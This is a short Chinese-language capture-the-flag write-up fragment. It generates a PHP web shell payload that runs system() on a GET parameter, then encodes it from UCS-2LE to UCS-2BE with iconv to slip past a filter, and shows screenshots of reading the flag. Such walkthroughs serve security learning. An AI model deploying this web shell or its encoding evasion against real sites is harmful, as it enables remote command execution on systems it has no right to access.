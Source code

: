 这里直接用先知那篇文章里的从 UCS-2LE 到 UCS-2BE 的转换

本地生成一个 payload, 注意原始长度必须是偶数

```php
<?php 
$text = '<?php system($_GET[11]);?>';

echo iconv("UCS-2LE", "UCS-2BE", $text);
?>
```

编码后的 payload

```php
?<hp pystsme$(G_TE1[]1;)>?
```

![20220804204710](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220804204710.png)

查看 flag

![20220804204728](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220804204728.png)